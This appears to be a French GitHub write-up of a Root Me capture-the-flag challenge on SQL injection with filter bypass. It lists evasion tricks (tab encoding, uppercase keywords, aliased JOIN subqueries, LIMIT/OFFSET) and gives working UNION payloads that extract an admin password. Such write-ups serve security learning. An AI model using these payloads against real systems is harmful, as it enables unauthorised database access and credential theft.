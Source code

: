 # -SQL-injection---Contournement-de-filtres
 SQL injection - Contournement de filtres (challenge root me 80pt)

Description courte : Nous allons injecter dans le paramètre id ici.

![image](https://github.com/user-attachments/assets/2f36be91-3947-4aa1-a9bf-ecb908886649)

Les caractères filtrés et leurs contournements :

    Espaces → remplacer par %09 (tabulation)

    "select" → remplacer par "SELECT" (majuscules)

    "union" → remplacer par "UNION" (majuscules)

    "join" → remplacer par "JOIN" (majuscules)

    "select 1,2" (virgule filtrée) → remplacer par :
    (SELECT 1) AS A JOIN (SELECT 2) AS B
    (Note : Sans alias pour les sous-requêtes, erreur "Every derived table must have its own alias")

    "where" → remplacer par limit et offset

Indice du code source : la table a 4 colonnes.

![image](https://github.com/user-attachments/assets/eaf32426-edf5-43a6-8e47-34205fab5af8)

      Payload de base :
     0 UNION SELECT * FROM (SELECT 1) AS A JOIN (SELECT 2) AS B JOIN (SELECT 3) AS C JOIN (SELECT 4) AS D

     Version adaptée :
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D

     Payload final pour récupérer le mot de passe admin :
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%09)%09AS%09D




